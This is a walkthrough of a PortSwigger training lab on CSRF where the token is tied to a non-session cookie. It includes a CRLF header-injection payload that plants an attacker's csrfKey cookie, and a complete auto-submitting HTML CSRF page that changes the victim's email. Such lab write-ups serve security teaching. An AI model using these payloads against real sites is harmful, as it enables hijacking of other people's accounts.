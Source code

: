 # CSRF where token is tied to non-session cookie

## Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)'s email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system. 

## Reproduction and proof of concept

1. Open Burp's browser and log in to the `wiener` account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that changing the `session` cookie logs you out, but changing the `csrfKey` cookie merely results in the `csrf` token being rejected. This suggests that the `csrfKey` cookie may not be strictly tied to the session. To check `csrf` cookie and `csrf` token are tied, enter an invalid token. The request is not accepted.
3. Open a private/incognito browser window, log in to Portswigger, then on the lab site into the `carlos` attacker account, and send a fresh update email request into Burp Repeater.
4. Swapping the `csrfKey` cookie and `csrf` parameter from the `carlos` account to the `wiener` account (or vv), the request is accepted.

```text
HTTP/1.1 302 Found
Location: /my-account
Connection: close
Content-Length: 0
```

Swapping only one of the two, the request is not accepted. The two are tied.

5. Close the Repeater tab and incognito browser.
6. Back in the original browser in the `wiener` account, do a search, send the resulting request to Burp Repeater. Check that the search term gets reflected in the `Set-Cookie` header. 

```text
GET /?search=whatever HTTP/1.1
Host: 0a8a007003328fbbc0520eb3006500e7.web-security-academy.net
Cookie: session=3434rpqGQke3AkVlNlulO9qFJKzTjK4J; csrfKey=h8xkUPRUr4PbtkKwRm6bORpJx5qWNibu
...
```

Because the search function has no CSRF protection, this can be used to inject cookies into the victim user's browser.

7. Create a URL that uses this vulnerability to inject a `csrfKey` cookie from the carlos attacker account into the victim's browser:

```text
/?search=test%0d%0aSet-Cookie:%20csrfKey=JZdIUDJnjrR2QPnOBOVp9z5VukuYTpf4%3b%20SameSite=None
```

Results:

```text
HTTP/1.1 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrfKey=JZdIUDJnjrR2QPnOBOVp9z5VukuYTpf4; SameSite=None; Secure; HttpOnly
```
    
8. Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab (above), ensuring that you include your CSRF token. The exploit should be created from the email change request.
9. Remove the auto-submit `script` block and replace it with the `/?search=test%0d%0aSet-Cookie:%20csrfKey=JZdIUDJnjrR2QPnOBOVp9z5VukuYTpf4%3b%20SameSite=None`, and change the `csrf` token to the tied `csrfKey` one of the attacker:

```text
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a8a007003328fbbc0520eb3006500e7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;normal&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="JZdIUDJnjrR2QPnOBOVp9z5VukuYTpf4" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a8a007003328fbbc0520eb3006500e7.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=49yoasBlApBjSMbVt4Qi2SddyqBHMqgn%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

**Copy HTML** and put it in the `body` of the **Exploit server** form:

![CSRF](/_static/images/csrf2.png)

10. **Store** the exploit in the exploit server of the lab, then click **Deliver to victim**.

## Exploitability

An attacker needs to use the exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. There are two accounts on the application that can be used: `wiener:peter` (victim) and `carlos:montoya` (attacker).

## Impact

If an attacker can change the email address of another user, he/she can log in as that user and gain access to the account and all of its data.
